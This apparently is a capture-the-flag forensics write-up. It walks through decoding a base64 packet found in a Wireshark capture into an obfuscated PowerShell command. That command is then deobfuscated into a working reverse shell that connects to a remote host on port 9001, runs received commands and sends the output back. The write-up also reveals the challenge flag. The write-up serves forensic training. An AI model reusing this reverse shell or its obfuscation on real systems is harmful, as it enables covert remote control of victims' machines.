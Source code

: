 <img width="498" height="456" alt="image" src="https://github.com/user-attachments/assets/37a3682a-7ca6-4b9e-ab7f-7d71d1a605f1" />  

# Cre: namdory

Download and open it with Wireshark, you can see a packet with suspicious data:  

<img width="1081" height="930" alt="image" src="https://github.com/user-attachments/assets/f05e1729-1a7b-48e9-af93-747b0937c73e" />  

Look like it end with `==` ~ base64. Decode it and remove `null` characters, you have:  

```
((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')

',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv 'mdR').nAmE[3,11,2]-jOiN'')
```
That clearly something huh !  
```python

nz0client = New-Object System.Net.Sockets.TCPClient(
    19Rwwf{s0m3_p0w3r5h3ll_0bfusc4710n}19R, 9001
);
nz0stream = nz0client.GetStream();
[byte[]]nz0bytes = 0..65535 % {0};
while ((nz0i = nz0stream.Read(nz0bytes, 0, nz0bytes.Length)) -ne 0) {
    nz0data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(nz0bytes, 0, nz0i);
    nz0sendback = (iex nz0data 2>&1 | Out-String);
    nz0sendback2 = nz0sendback + "19RPS 19R" + (pwd).Path + "19R> 19R";
    nz0sendbyte = ([text.encoding]::ASCII).GetBytes(nz0sendback2);
    nz0stream.Write(nz0sendbyte, 0, nz0sendbyte.Length);
    nz0stream.Flush();
}
nz0client.Close();
```
Do you see the flag ?  
Peace!

